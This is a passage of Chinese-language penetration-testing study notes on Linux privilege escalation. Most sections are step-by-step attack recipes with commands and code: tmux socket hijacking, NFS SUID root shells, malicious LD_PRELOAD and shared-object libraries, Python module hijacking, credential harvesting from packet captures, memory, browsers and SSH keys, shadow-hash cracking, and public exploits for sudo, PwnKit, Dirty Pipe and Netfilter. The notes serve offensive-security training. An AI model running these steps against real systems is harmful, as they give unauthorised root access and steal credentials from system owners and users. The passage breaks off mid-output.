#### ② 檢查 socket 權限

```bash
ls -la /shareds
```

你會看到類似結果：

```
srw-rw---- 1 root devs 0 Sep  1 06:27 /shareds
```

⚠ `root devs` 表示這個 socket 檔案屬於 `root`，群組是 `devs`，且 devs 群組成員可以 rw（可讀寫）

***

#### ③ 確認你是不是 devs 群組成員

```bash
id
```

舉例結果：

```
uid=1000(htb) gid=1000(htb) groups=1000(htb),1011(devs)
```

✅ 有看到 `devs`，恭喜，可以劫持！

***

#### ④ 附加到該 tmux session

```bash
tmux -S /shareds attach
```

或者

```bash
tmux -S /shareds
```

👉 你現在已經進入 root 的 tmux session 了！

***

#### ⑤ 在 tmux 裡確認身分

```bash
id
```

你應該會看到：

```
uid=0(root) gid=0(root) groups=0(root)
```

✅ root get！

</details>

<details>

<summary>弱 NFS 權限 (Weak NFS Privileges) 提權</summary>

### 攻擊前提：

* NFS 服務有掛載目錄 (例如 `/tmp`、`/var/nfs/general`)
* 設定中存在 `no_root_squash`，代表 root 權限不會被降權，可以直接以 root 身份寫檔
* 我們有掛載權限，可以從本機掛載 NFS

***

### ✅ Step by step — 流程教學

***

#### ① 掃描 NFS 匯出

```bash
showmount -e <目標 IP>
```

範例：

```bash
showmount -e 10.129.2.12
```

輸出範例：

```
Export list for 10.129.2.12:
/tmp             *
/var/nfs/general *
```

✅ 表示 `/tmp` 和 `/var/nfs/general` 對所有人開放

***

#### ② 檢查是否有 `no_root_squash`

如果可以，查看 `/etc/exports` （通常需要有主機 shell 權限）：

```bash
cat /etc/exports
```

範例輸出：

```
/var/nfs/general *(rw,no_root_squash)
/tmp *(rw,no_root_squash)
```

✅ 有 `no_root_squash`，代表 root 可以上傳 suid 二進位！

***

#### ③ 本地建立 SUID Shell 二進位檔

**建立 shell.c**

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main() {
    setuid(0);
    setgid(0);
    system("/bin/bash");
    return 0;
}
```

**編譯：**

```bash
gcc shell.c -o shell
```

⚠ 這個 `shell` 程式執行時會直接用 root 權限開 bash

***

#### ④ 將 NFS 掛載到本地

```bash
sudo mount -t nfs <目標 IP>:<共享目錄> /mnt
```

例如：

```bash
sudo mount -t nfs 10.129.2.12:/tmp /mnt
```

👉 現在 `/mnt` 對應遠端 `/tmp`

***

#### ⑤ 上傳 SUID Shell 並設定權限

```bash
cp shell /mnt/
chmod u+s /mnt/shell
```

✅ 設定 suid bit（u+s）讓 shell 可以以 root 身份執行

***

#### ⑥ 回到受害主機低權限帳號

在目標機 `/tmp` 找到 `shell`：

```bash
ls -la /tmp/shell
```

應該看到：

```
-rwsr-xr-x 1 root root 16712 Sep  1 06:15 shell
```

✅ `rws` 代表 suid bit 已經設置好了

***

#### ⑦ 執行提權！

```bash
/tmp/shell
id
```

結果會是：

```
uid=0(root) gid=0(root) groups=0(root)
```

🎉 root get！

</details>

<details>

<summary>被動流量捕獲 (Passive Traffic Capture)</summary>

#### ① 用 tcpdump 開始抓封包

範例：監聽 eth0 介面並將流量存到檔案

```bash
tcpdump -i eth0 -w /tmp/capture.pcap
```

可以限定抓取 HTTP 流量 (port 80)tcpdump -i eth0 port 80 -w /tmp/http.pcap

⚠ 通常會讓它跑一段時間，等有人登入或傳輸敏感資料

***

#### ② 停止抓包

按 `Ctrl+C` 停止，封包會存到指定的 pcap 檔案中

***

#### ③ 在本機分析封包

***

**✅ 方法 A：使用 Wireshark (圖形化)**

* 把 `/tmp/capture.pcap` 拿到本機
* 開 Wireshark，過濾：

```
http.auth 或 ftp.request 或 smtp 或 telnet 或 pop3 或 imap
```

* 或用 `Follow TCP Stream` 查看明文帳密

***

**✅ 方法 B：使用 PCredz (自動提取憑證)**

下載 PCredz 工具：

```bash
git clone https://github.com/lgandx/PCredz.git
cd PCredz
```

分析封包：

```bash
python3 PCredz.py -f /tmp/capture.pcap
```

👉 它會自動列出明文密碼、Cookie、HTTP Basic Auth、SMTP/POP3/IMAP 密碼等

***

**✅ 方法 C：使用 net-creds**

```bash
git clone https://github.com/DanMcInerney/net-creds.git
cd net-creds
python3 net-creds.py -f /tmp/capture.pcap
```

👉 一樣可以自動分析 pcap 抓明文帳密

***

#### ④ 嘗試用抓到的帳密登入系統

* 登入 SSH / FTP
* 嘗試 sudo 提權
* 嘗試 SMB hash 破解

***

### ✅ 攻擊範例（範本）

```bash
tcpdump -i eth0 -w /tmp/capture.pcap
# 等 2 分鐘
Ctrl+C
scp /tmp/capture.pcap 回本機
python3 PCredz.py -f capture.pcap
# 找到 POP3 username:password，去登入目標系
```

</details>

<details>

<summary>Linux 核心漏洞 (Kernel Exploits) 權限提升</summary>

### ✅ 前置條件

* 你已經有低權限 shell
* 可以使用 `uname -a` 知道目標核心版本

***

### ✅ Step by step 實戰流程

***

#### ① 查看目標核心版本

```bash
uname -a
```

範例輸出：

```
Linux NIX02 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 GNU/Linux
```

✅ 紀錄版本： `4.4.0-116-generic`

***

#### ② Google 搜尋

👉 使用 Google 搜尋：

```
linux 4.4.0-116-generic privilege escalation exploit
```

或

```
site:exploit-db.com 4.4.0-116
```

找到適用的 Exploit 程式碼（例如 Dirty Cow、或者專屬版本漏洞 PoC）。

***

#### ③ 將 exploit 上傳目標主機

如果主機有 wget 或 curl：

```bash
wget <exploit-url> -O kernel_exploit.c
```

或

```bash
curl -o kernel_exploit.c <exploit-url>
```

⚠ 如果不行，可以 SCP 或透過你的反向 shell 傳輸。

***

#### ④ 編譯漏洞程式

```bash
gcc kernel_exploit.c -o kernel_exploit
chmod +x kernel_exploit
```

⚠ 如果沒有 gcc，可以試著找預編譯版本或在同核心版本環境編譯後上傳。

***

#### ⑤ 執行 exploit

```bash
./kernel_exploit
```

正常會出現提示類似：

```
task_struct = ffff8800b71d7000
uidptr = ffff8800b95ce544
spawning root shell
```

此時已經有機會是 root shell！

***

#### ⑥ 確認身分

```bash
id
whoami
```

預期輸出：

```
uid=0(root) gid=0(root) groups=0(root)
```

🎉 成功提權為 root！

</details>

<details>

<summary>Shared Libraries  共享庫</summary>

### 🎯 攻擊前提條件：

1. 受害機器 sudo 設定中保留 `env_keep+=LD_PRELOAD`
2. 有一個 sudo 可執行的程式（不是 GTFOBins 也可以）
3. 目標 sudo 指令可以執行，且允許注入 preload

***

### 📜 攻擊流程：

#### ① 確認 sudo 權限及 LD\_PRELOAD 是否可利用

```bash
sudo -l
```

✅ 如果看到：

```
env_keep+=LD_PRELOAD
```

並且有類似：

```
(root) NOPASSWD: /usr/sbin/apache2 restart
```

代表此攻擊路徑可以嘗試！

***

#### ② 建立惡意共享函式庫

用以下內容建立 `root.c`：

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD"); 
    setgid(0); 
    setuid(0); 
    system("/bin/bash");
}
```

> `_init()` 函式會在共享庫被載入時自動執行。

***

#### ③ 將共享庫編譯成 so 檔

```bash
gcc -fPIC -shared -o /tmp/root.so root.c -nostartfiles
```

📌 小知識：

* `-fPIC` ：產生位置無關代碼
* `-shared` ：輸出為共享庫
* `-nostartfiles` ：不載入標準初始化代碼

***

#### ④ 開啟監聽（若要 reverse shell）或直接執行觸發

若是反彈 shell，可以準備 `nc`：

```bash
nc -lvnp 4444
```

如果只是要直接取得 root shell，直接進行下一步。

***

#### ⑤ 透過 sudo 搭配 LD\_PRELOAD 觸發權限提升

```bash
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
```

🔎 這行指令會：

* 利用 sudo 執行 apache2
* 在執行時預先載入我們的 root.so
* 自動呼叫 `_init()`，取得 root shell

***

#### ⑥ 驗證是否為 root 權限

```bash
id
```

預期輸出：

```
uid=0(root) gid=0(root) groups=0(root)
```

🎉 你已經 root 了！

</details>

<details>

<summary>共享對象劫持 (Shared Object Hijacking)</summary>



### 📝 【1️⃣ 資訊收集】

#### ① 搜尋系統中有 SUID 權限的執行檔

```bash
find / -perm -4000 -type f 2>/dev/null
```

> 找出哪些程式擁有 root 權限執行。

***

#### ② 使用 `ldd` 查看目標 SUID 執行檔的動態函式庫依賴

```bash
ldd <binary>
```

範例：

```bash
ldd payroll
```

> 檢查是否有非標準路徑（例如 `/development/`）或自訂的 `libshared.so`。

***

#### ③ 確認 RUNPATH 或 RPATH

```bash
readelf -d <binary> | grep PATH
```

範例：

```bash
readelf -d payroll | grep PATH
```

> 找到可疑目錄（如果是 everyone writable 即為攻擊點）。

***

#### ④ 確認該路徑是否「可寫」

```bash
ls -ld /development/
```

> `drwxrwxrwx` 代表所有人可寫，非常危險！

***

### 🛠 【2️⃣ 攻擊步驟】

> 以下步驟與前面教學相同，我整合補全：

***

#### ① 找到執行檔及函式庫

```bash
ls -la payroll
ldd payroll
readelf -d payroll | grep PATH
```

***

#### ② 測試執行，找到缺少的函式 (symbol)

```bash
./payroll
```

通常會出現：

```
undefined symbol: dbquery
```

***

#### ③ 撰寫惡意函式庫 (libshared.so)

`exploit.c`：

```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
}
```

***

#### ④ 編譯惡意共享函式庫

```bash
gcc -fPIC -shared -o /development/libshared.so exploit.c
```

***

#### ⑤ 執行 payload，觸發 root shell

```bash
./payroll
```

你應該會看到：

```
Malicious library loaded
# id
uid=0(root) gid=0(root) groups=0(root)
```

</details>

<details>

<summary>Python 函式庫劫持</summary>

### ✅ 1️⃣ 錯誤的寫入權限（Wrong Write Permissions）

> 當目標 Python 腳本以 root 或高權限執行，並且導入的模組有 world-writable 權限，我們可以直接修改該模組來注入惡意指令。

#### ➡️ 攻擊步驟

#### ① 確認有 SUID 權限的 Python 腳本

```bash
ls -l mem_status.py
```

輸出範例：

```
-rwsrwxr-x 1 root mrb3n 188 Dec 13 20:13 mem_status.py
```

***

#### ② 檢查 Python 腳本內容

```bash
cat mem_status.py
```

範例內容：

```python
#!/usr/bin/env python3
import psutil

available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total
print(f"Available memory: {round(available_memory, 2)}%")
```

***

#### ③ 搜尋被匯入模組 `psutil` 的實際路徑

```bash
grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/*
```

然後確認 `__init__.py` 的權限：

```bash
ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py
```

若結果顯示 world writable，如：

```
-rw-r--rw- 1 root staff 87339 Dec 13 20:07 /usr/local/lib/python3.8/dist-packages/psutil/__init__.py
```

✅ 可以被修改，代表存在漏洞！

***

#### ④ 編輯該模組，注入惡意指令

在 `virtual_memory()` 函式開頭加入：

```python
import os
os.system('id')
```

***

#### ⑤ 執行目標 Python 腳本

```bash
sudo /usr/bin/python3 ./mem_status.py
```

若看到輸出：

```
uid=0(root) gid=0(root) groups=0(root)
```

🎉 權限提升成功！

***

### ✅ 2️⃣ 利用 Library 路徑優先順序 (Library Path Hijacking)

#### ➡️ 攻擊條件

* 導入的模組位於 sys.path 中較低優先權目錄（如 `/usr/local/lib/...`）。
* sys.path 中較高優先權路徑可寫（如 `/usr/lib/python3.8/`）。

#### ➡️ 攻擊步驟

#### ① 檢查 Python 的模組搜尋順序

```bash
python3 -c 'import sys; print("\n".join(sys.path))'
```

***

#### ② 檢查 psutil 預設安裝位置

```bash
pip3 show psutil
```

輸出範例：

```
Location: /usr/local/lib/python3.8/dist-packages
```

若此路徑在 sys.path 裡較低順位，而 `/usr/lib/python3.8` 可寫，代表可以進行 hijacking。

***

#### ③ 確認目錄可寫權限

```bash
ls -ld /usr/lib/python3.8
```

若為：

```
drwxr-xrwx 30 root root  20480 Dec 14 16:26 /usr/lib/python3.8
```

✅ World writable，漏洞存在！

***

#### ④ 建立同名惡意模組

建立 `/usr/lib/python3.8/psutil.py`：

```python
#!/usr/bin/env python3
import os

def virtual_memory():
    os.system('id')
```

***

#### ⑤ 執行目標 Python 腳本

```bash
sudo /usr/bin/python3 ./mem_status.py
```

如果執行時出現：

```
uid=0(root) gid=0(root) groups=0(root)
```

🎉 劫持成功！

***

### ✅ 3️⃣ 利用 PYTHONPATH 環境變數 (PYTHONPATH Hijacking)

#### ➡️ 攻擊條件

* 有 sudo 權限可用 `SETENV` 執行 `python3`。
* 可自訂 PYTHONPATH 指向惡意模組所在目錄。

***

#### ➡️ 攻擊步驟

#### ① 檢查 sudo 權限

```bash
sudo -l
```

結果範例：

```
(ALL : ALL) SETENV: NOPASSWD: /usr/bin/python3
```

✅ 可以搭配環境變數執行 python3！

***

#### ② 在 `/tmp/` 建立惡意模組 `psutil.py`

內容如下：

```python
#!/usr/bin/env python3
import os

def virtual_memory():
    os.system('id')
```

***

#### ③ 使用 PYTHONPATH 執行

```bash
sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./mem_status.py
```

如果輸出結果顯示：

```
uid=0(root) gid=0(root) groups=0(root)
```

🎉 PYTHONPATH 劫持成功！

***

### ✅ 完整整理表格 (一眼看懂)

| 攻擊方式                   | 核心條件                                    | 攻擊流程重點                                     |
| ---------------------- | --------------------------------------- | ------------------------------------------ |
| 錯誤寫入權限 (Wrong Write)   | 目標腳本以 root 執行 & 匯入模組有 world writable 權限 | 修改該模組，在函式開頭插入 os.system(‘id’)，執行觸發         |
| Library Path Hijacking | sys.path 高優先權路徑可寫，低順位路徑存在目標模組           | 在高優先權目錄中放置同名惡意模組，覆蓋原本模組                    |
| PYTHONPATH 環境變數劫持      | sudo 可使用 `SETENV` 選項執行 python3          | 自訂 `PYTHONPATH` 指向 /tmp/ 下惡意模組，sudo 執行目標程式 |

</details>

<details>

<summary>🎯 Linux 憑證獵取</summary>





## 🧨 A. Files 類憑證搜尋

### 🔍 1. 設定檔（config）

```bash
for ext in .conf .config .cnf; do
  echo "[*] Searching $ext"
  find / -name "*$ext" 2>/dev/null | grep -v "lib\|fonts\|share\|core"
done
```

🔎 搜尋內容中的關鍵詞：

```bash
for f in $(find / -name "*.cnf" 2>/dev/null); do
  echo "[*] Checking $f"; grep -i "user\|pass" $f 2>/dev/null
done
```

***

### 🔍 2. 資料庫檔案

```bash
for ext in .sql .db .*db .db*; do
  echo "[*] Searching $ext"
  find / -name "*$ext" 2>/dev/null | grep -v "doc\|lib\|share"
done
```

看重點：`cert9.db` 和 `key4.db` → Firefox 儲存的登入資訊

***

### 🔍 3. Notes 筆記檔

```bash
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

這會找出所有 `.txt` 和「沒有副檔名」的筆記檔，內文往往藏密碼。

***

### 🔍 4. Scripts 腳本檔

```bash
for ext in .sh .py .pl .go .jar .c; do
  echo "[*] Searching $ext"
  find / -name "*$ext" 2>/dev/null | grep -v "doc\|lib\|headers\|share"
done
```

重點：檢查腳本是否包含 hardcoded 密碼

***

### 🔍 5. CronJobs 排程

```bash
cat /etc/crontab
ls -la /etc/cron.d/
ls -la /etc/cron.daily/
```

這些定時任務的腳本中可能 hardcode 密碼、API key。

***

### 🔍 6. SSH 金鑰

```bash
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```

🔑 私鑰開頭通常是 `-----BEGIN OPENSSH PRIVATE KEY-----`\
🔓 若未加密可直接用來連線！

***

## 🔁 B. History 類憑證搜尋

### 🔍 Bash 歷史記錄

```bash
tail -n 20 /home/*/.bash_history
cat /home/*/.bashrc
cat /home/*/.bash_profile
```

看是否執行過 `su`、腳本參數帶密碼，或 curl/post 提交密碼。

***

## 💾 C. Memory & 快取類

### 🔧 Mimipenguin 提取記憶體中的登入密碼

```bash
sudo python3 mimipenguin.py
# or
sudo bash mimipenguin.sh
```

✅ 會回傳格式：

```
[SYSTEM - GNOME] cry0l1t3:MySecretPass
```

***

### 🔧 LaZagne（支援超過 30 種工具憑證）

```bash
sudo python2.7 laZagne.py all
```

🎯 支援項目包括：

* Shadow / passwd
* GNOME keyring / Kwallet
* SSH / Git / AWS / Docker
* Firefox, Chromium, Filezilla, etc

***

### 🔓 Firefox 解密瀏覽器登入

```bash
cat ~/.mozilla/firefox/*.default*/logins.json | jq .
```

🔧 用 firefox-decrypt.py 解密：

```bash
python3.9 firefox_decrypt.py
```

輸出範例：

```
Website: https://target.com
Username: admin
Password: P@ssw0rd123
```

***

## 📚 D. 日誌紀錄中的痕跡

### 🔍 有用的日誌檔：

```
/var/log/auth.log     # Debian 驗證
/var/log/secure       # RedHat 驗證
/var/log/syslog       # 系統活動
/var/log/cron         # 定時腳本
/var/log/faillog      # 登入失敗
```

### 🔍 搜尋關鍵字：

```bash
for f in /var/log/*; do
  grep -Ei "accepted|session opened|sudo|password changed|COMMAND=" $f 2>/dev/null
done
```

</details>

<details>

<summary>Linux 憑證系統與破解 (to be edit ...)</summary>

## 🔐 Linux 憑證系統與破解攻略

***

### 📘 一、認識三大密碼檔案

| 檔案                      | 說明                          |
| ----------------------- | --------------------------- |
| `/etc/passwd`           | 所有使用者帳號基本資料，可被所有人讀取         |
| `/etc/shadow`           | 密碼雜湊資訊（加密密碼），**只有 root 可讀** |
| `/etc/security/opasswd` | 過往使用過的舊密碼雜湊，用於 PAM 防止重複使用   |

***

### 📂 `/etc/passwd` 格式說明

範例：

```
cry0l1t3:x:1000:1000:cry0l1t3,,,:/home/cry0l1t3:/bin/bash
```

| 欄位順序 | 說明                   |
| ---- | -------------------- |
| 1    | 使用者名稱                |
| 2    | 密碼資訊（x 代表存放在 shadow） |
| 3    | UID（使用者 ID）          |
| 4    | GID（群組 ID）           |
| 5    | 使用者全名 / 備註           |
| 6    | 使用者家目錄               |
| 7    | shell（登入使用的殼）        |

***

### ⚠️ 特別注意：

* 若密碼欄位是 `x` → 使用 `/etc/shadow`
* 若密碼欄位是空白或 `::` → 無需密碼登入（**重大安全漏洞**）
* 若誤設寫入權限 → 可自行刪除 root 密碼達成提權

**範例提權技巧：**

```bash
sudo nano /etc/passwd
# 將 root:x: 改為 root:: 即可空密碼登入 root
su
# 進入 root 無需密碼
```

***

### 🧱 `/etc/shadow` 格式說明

範例：

```
cry0l1t3:$6$wBRzy$...HASH...:18937:0:99999:7:::
```

| 欄位順序 | 說明                       |
| ---- | ------------------------ |
| 1    | 使用者名稱                    |
| 2    | 密碼雜湊（或 `*`、`!` 表示無法密碼登入） |
| 3    | 上次密碼修改時間（從 1970 年起的天數）   |
| 4\~9 | 密碼策略設定（最小、最大使用時間等）       |

***

### 🔐 雜湊格式解析（Field 2）

格式：

```
$<type>$<salt>$<hashed_password>
```

常見加密演算法：

| 標記     | 加密方式                 |
| ------ | -------------------- |
| `$1$`  | MD5                  |
| `$2a$` | Blowfish             |
| `$5$`  | SHA-256              |
| `$6$`  | **SHA-512**（大多數新版預設） |

***

### 🗝 `/etc/security/opasswd`（舊密碼紀錄）

* PAM 模組 `pam_unix.so` 會儲存舊密碼防止重複使用
* 檔案格式通常為：

```
username:UID:count:$1$HASH1,$1$HASH2,...
```

* 比如：

```bash
sudo cat /etc/security/opasswd
cry0l1t3:1000:2:$1$HjFAfYTG$abc123,$1$kcUjWZJX$def456
```

✅ 可從這裡挖到舊密碼 hash，特別是 **$1$ → MD5 很好破解**

***

### 🧨 破解流程（清晰步驟）

#### ✅ 第一步：備份檔案

```bash
sudo cp /etc/passwd /tmp/passwd.bak
sudo cp /etc/shadow /tmp/shadow.bak
```

#### ✅ 第二步：解除 Shadow 合併

```bash
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
```

***

### 🔥 使用 Hashcat 破解密碼

#### 🧠 破解 Linux 雜湊（SHA-512）

```bash
hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o cracked.txt
```

參數說明：

* `-m 1800`：表示 SHA-512 (`$6$`)
* `-a 0`：字典攻擊
* `rockyou.txt`：常用密碼字典

***

#### 🧠 破解 Opasswd 中的 MD5 密碼

先建立 MD5 hash 清單：

```bash
cat > md5-hashes.list << EOF
qNDkF0zJ3v8ylCOrKB0kt0
E9uMSmiQeRh4pAAgzuvkq1
EOF
```

破解：

```bash
hashcat -m 500 -a 0 md5-hashes.list rockyou.txt
```

參數說明：

* `-m 500`：表示 Linux MD5 (`$1$`)

***

### ✅ 破解成功後可見：

```
qNDkF0zJ3v8ylCOrKB0kt0:password123
```

***

### 🛠 若無 Hashcat，可用 John the Ripper：

```bash
john --wordlist=rockyou.txt /tmp/unshadowed.hashes
```

查看已破解：

```bash
john --show /tmp/unshadowed.hashes
```

***

###

</details>









***

## **🎯 3. ZERO day**&#x20;

<details>

<summary>(CVE-2021-3156) ,(CVE-2019-14287)  (sudo)</summary>

| CVE-2021-3156 | sudo < 1.9.5p2 且系統為易受影響版本 | 利用公開 POC，下載編譯 `sudo-hax-me-a-sandwich`，執行指定 ID 即 root |
| ------------- | ------------------------- | ----------------------------------------------------- |

| CVE-2019-14287 | sudoers 允許特定指令，透過 sudo -u 指定 ID | 執行 `sudo -u#-1 指令`，利用 -1 映射為 root (UID 0) |
| -------------- | ------------------------------- | ----------------------------------------- |

### ✅ 1️⃣ CVE-2021-3156 (Heap-based Buffer Overflow)

> 影響 sudo 版本 < 1.9.5p2，大多數 Linux 發行版本在多年來都存在此漏洞。

#### ➡️ 攻擊流程

#### ① 確認 sudo 版本

```bash
sudo -V | head -n1
```

若結果為：

```
Sudo version 1.8.31
```

並且系統版本對應 Ubuntu 20.04 或其他受影響版本，即可進行下一步。

***

#### ② 確認作業系統版本

```bash
cat /etc/lsb-release
```

範例結果：

```
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_DESCRIPTION="Ubuntu 20.04.1 LTS"
```

***

#### ③ 下載 exploit

```bash
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
make
```

***

#### ④ 執行 exploit

```bash
./sudo-hax-me-a-sandwich
```

確認目標系統編號 (如 `1` 為 Ubuntu 20.04.1)

***

#### ⑤ 執行指定版本 ID

```bash
./sudo-hax-me-a-sandwich 1
```

正常會看到：

```
** pray for your rootshell.. **

# id
uid=0(root) gid=0(root) groups=0(root)
```

🎉 root 權限成功！

***

### ✅ 2️⃣ CVE-2019-14287 (Sudo Policy Bypass)

> 當 sudo 設定允許執行特定指令時，即使只執行 `sudo -u#-1` 也可以拿到 root 權限。

#### ➡️ 攻擊流程

#### ① 查看 sudo 權限

```bash
sudo -l
```

若有類似：

```
User cry0l1t3 may run the following commands on Penny:
    ALL=(ALL) /usr/bin/id
```

代表可執行 `id` 指令。

***

#### ② 檢查使用者 UID

```bash
cat /etc/passwd | grep cry0l1t3
```

範例結果：

```
cry0l1t3:x:1005:1005:cry0l1t3,,,:/home/cry0l1t3:/bin/bash
```

✅ 知道自己 UID 是 1005。

***

#### ③ 利用 sudo -u#-1 觸發 root 權限

```bash
sudo -u#-1 id
```

會回傳：

```
uid=0(root) gid=1005(cry0l1t3) groups=1005(cry0l1t3)
```

然後就可以：

```bash
sudo -u#-1 /bin/bash
```

取得 root shell！

***

###

</details>

<details>

<summary>Polkit  波爾基特 (CVE-2021-4034 )/ PwnKi</summary>

### ✅ Polkit 簡介

* Polkit 是 Linux 系統用來授權不同使用者或應用程式以 root 權限執行操作的授權服務。
* `pkexec` 指令就像 sudo，可以用來以 root 或其他使用者身份執行指令。

***

### ✅ 漏洞背景（CVE-2021-4034）

* 此漏洞存在於 `pkexec` 工具中，是一個記憶體損毀 (Memory corruption) 弱點。
* 利用此漏洞可以在系統上以非特權使用者取得 root 權限。
* 該漏洞隱藏長達 12 年，2022 年初正式公開，編號 CVE-2021-4034（PwnKit）。

***

### ✅ 環境確認步驟

#### ① 檢查系統是否安裝有 pkexec：

```bash
which pkexec
```

#### ② 確認 polkit 版本（可選）：

```bash
pkexec --version
```

若版本較舊（通常 < 0.120）都可能受影響。

***

### ✅ Exploit 利用步驟

#### 1️⃣ 下載 Exploit PoC

```bash
git clone https://github.com/arthepsy/CVE-2021-4034.git
cd CVE-2021-4034
```

> 如果沒有 git，可以嘗試 wget 或 curl。

***

#### 2️⃣ 編譯 POC

```bash
gcc cve-2021-4034-poc.c -o poc
```

✅ 如果沒裝 gcc，可以先確認是否能用 `sudo apt install gcc` 安裝，或嘗試透過其他管道上傳已編譯好的二進制。

***

#### 3️⃣ 執行 Exploit

```bash
./poc
```

⚠️ 成功執行後會直接進入 root shell，但初始是 `/bin/sh`，可以執行：

```bash
bash
```

切換成 bash shell。

***

#### 4️⃣ 驗證 root 權限

```bash
id
```

預期輸出：

```
uid=0(root) gid=0(root) groups=0(root)
```

🎉 成功取得 root！

***

### ✅ 小總結：

| 利用點                    | 條件                           | 步驟                                             |
| ---------------------- | ---------------------------- | ---------------------------------------------- |
| CVE-2021-4034 (PwnKit) | 系統有 `pkexec`，版本未修補，通常 <0.120 | 下載 POC → 編譯 → 執行 `./poc` → 切 bash → id 查看 root |

</details>

<details>

<summary>Dirty Pipe (CVE-2022-0847)</summary>

### ✅ Dirty Pipe 簡介

Dirty Pipe 係 Linux 核心 5.8 \~ 5.17 之間一個重大漏洞，允許非特權用戶寫入有 read 權限但冇寫權限嘅檔案（例如 `/etc/passwd`），從而達到權限提升 (root)。

***

### ✅ 利用條件：

* Linux kernel 版本 5.8 \~ 5.17。
* 目標系統可執行 `git`、`gcc` 或有辦法上傳已編譯的 exploit。
* 有 `read` 權限嘅目標檔案（例如 `/etc/passwd`）。

***

### ✅ 利用 Dirty Pipe 權限提升 step by step

#### 1️⃣ 確認 Kernel 版本

```bash
uname -r
```

如果版本係 5.8 到 5.17 之間，即有機會存在漏洞。

***

#### 2️⃣ 下載 Dirty Pipe PoC Exploit

```bash
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cd CVE-2022-0847-DirtyPipe-Exploits
```

***

#### 3️⃣ 編譯 Exploit

```bash
bash compile.sh
```

完成之後會產生：

* `exploit-1`
* `exploit-2`

***

#### 4️⃣ 使用 exploit-1 修改 `/etc/passwd`

> Exploit-1 會備份 `/etc/passwd`，修改 root 密碼成「piped」，再 restore。\
> 執行：

```bash
./exploit-1
```

成功後會提示可以用 su -c 指令直接取得 root。\
驗證：

```bash
id
```

預期結果：

```
uid=0(root) gid=0(root) groups=0(root)
```

🎉 已經成功 pop root shell！

***

#### 5️⃣ 使用 exploit-2 劫持 SUID Binary

exploit-2 可以利用 Dirty Pipe 臨時劫持指定嘅 SUID binary 以 root 權限執行。

***

**5-1️⃣ 找到 SUID binary**

```bash
find / -perm -4000 2>/dev/null
```

常見可利用目標：`/usr/bin/sudo`、`/usr/bin/passwd`、`/usr/bin/chsh` 等等。

***

**5-2️⃣ 使用 exploit-2 指定 SUID binary**

例如使用 `/usr/bin/sudo`：

```bash
./exploit-2 /usr/bin/sudo
```

執行後會顯示類似：

```
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
```

驗證 root 權限：

```bash
id
```

結果：

```
uid=0(root) gid=0(root) groups=0(root)
```

***

### ✅ 利用完成後記得：

* 恢復 `/etc/passwd`（exploit 已自動備份）。
* 刪除 `/tmp/sh` 臨時文件。
* 如果係 CTF 環境或測試機唔需要處理，但真實環境需要清理痕跡。

***

### ✅ 小結

| Exploit   | 功能                                            | 用法範例                        |
| --------- | --------------------------------------------- | --------------------------- |
| exploit-1 | 修改 `/etc/passwd` root 密碼為 piped，彈出 root shell | `./exploit-1`               |
| exploit-2 | 臨時劫持指定 SUID binary 執行 root shell              | `./exploit-2 /usr/bin/sudo` |

</details>

<details>

<summary>Netfilter 權限提升漏洞 (CVE-2021-22555、CVE-2022-25636、CVE-2023-32233)</summary>

### ✅ 什麼係 Netfilter？

Netfilter 係 Linux 核心中負責封包過濾、NAT 及流量控制嘅模組，透過 iptables、nftables 等機制運作。\
而由於 Netfilter 在核心層處理封包，歷年嚟多次發現可導致本地用戶提權到 root 嘅漏洞。

***

### ✅ 1️⃣ CVE-2021-22555 (Linux 2.6 \~ 5.11)

#### 利用步驟：

1️⃣ 確認 kernel 版本

```bash
uname -r
```

✅ 如果係 5.11 以下就有可能中招。

2️⃣ 下載漏洞 PoC

```bash
wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
```

3️⃣ 編譯

```bash
gcc -m32 -static exploit.c -o exploit
```

4️⃣ 執行

```bash
./exploit
```

5️⃣ 成功會彈出 root shell：

```bash
id
```

結果：

```
uid=0(root) gid=0(root) groups=0(root)
```

***

### ✅ 2️⃣ CVE-2022-25636 (Linux 5.4 \~ 5.6.10)

#### 利用步驟：

1️⃣ 確認 kernel 版本

```bash
uname -r
```

✅ 如果係 5.4 \~ 5.6.10 之間即有機會中招。

2️⃣ 下載 exploit

```bash
git clone https://github.com/Bonfee/CVE-2022-25636.git
cd CVE-2022-25636
```

3️⃣ 編譯

```bash
make
```

4️⃣ 執行

```bash
./exploit
```

5️⃣ 成功彈出 root shell 後驗證：

```bash
id
```

結果：

```
uid=0(root) gid=0(root) groups=0(root)
```

⚠ 注意：此 exploit 有機會令系統 kernel crash，實機請小心測試！

***

### ✅ 3️⃣ CVE-2023-32233 (Linux 最高到 6.3.1)

#### 原理：

* 利用 nf\_tables 中匿名 sets 嘅 Use-After-Free 漏洞，通過 race condition 攻擊提權。

#### 利用步驟：

1️⃣ 下載 exploit

```bash
git clone https://github.com/Liuk3r/CVE-2023-32233
cd CVE-2023-32233
```

2️⃣ 編譯

```bash
gcc -Wall -o exploit exploit.c -lmnl -lnftnl
```

3️⃣ 執行

```bash
./exploit
```

4️⃣ 成功後會自動彈出 root shell：

```bash
id
```

結果：

```
